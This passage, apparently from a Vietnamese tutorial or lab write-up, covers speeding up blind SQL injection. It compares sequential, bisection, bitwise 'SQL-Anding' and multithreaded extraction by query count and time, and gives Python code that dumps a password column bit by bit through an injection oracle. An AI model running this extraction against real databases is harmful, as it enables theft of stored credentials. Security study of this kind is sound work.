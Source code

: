 #### **Hiệu quả**
- Tổng số truy vấn: **256**.
- Thời gian thực thi: **60.281 giây** (nhanh hơn **Bisection**).

---

### **3. Tối ưu hóa với Multithreading**

#### **Ý tưởng**
- Với **Bisection**: Các truy vấn cho một ký tự phụ thuộc nhau, nhưng ký tự khác độc lập.
  → Chạy song song các truy vấn cho nhiều ký tự.
- Với **SQL-Anding**: Tất cả các truy vấn độc lập.
  → Chạy song song mọi truy vấn.

#### **Triển khai với Python (Multithreading)**
```python
import threading

# Hàm xử lý cho từng ký tự
def dump_character(index):
    c = 0
    for p in range(7):
        if oracle(f"ASCII(SUBSTRING(password,{index},1)) & {2**p} > 0"):
            c |= 2**p
    print(chr(c), end='')
    sys.stdout.flush()

# Tạo và khởi chạy các luồng
threads = []
for i in range(1, length + 1):
    t = threading.Thread(target=dump_character, args=(i,))
    threads.append(t)
    t.start()

# Đợi tất cả luồng hoàn thành
for t in threads:
    t.join()

print()
```

#### **Hiệu quả**
- Giảm thời gian thực thi xuống đáng kể nhờ tận dụng song song hóa.
- Thời gian phụ thuộc vào số lượng luồng và tài nguyên hệ thống.

---

### **So sánh các thuật toán**
| **Thuật toán**      | **Số truy vấn** | **Thời gian (giây)** | **Ghi chú**                                  |
|---------------------|----------------|----------------------|----------------------------------------------|
| Tuần tự            | 4128           | 1005.671            | Chậm nhất                                   |
| **Bisection**       | 256            | 61.556              | Nhanh hơn nhờ giảm số truy vấn              |
| **SQL-Anding**      | 256            | 60.281              | Nhanh hơn chút so với Bisection            |
| **Multithreading**  | Tùy thuộc      | Rút ngắn đáng kể    | Tận dụng song song hóa                      |

---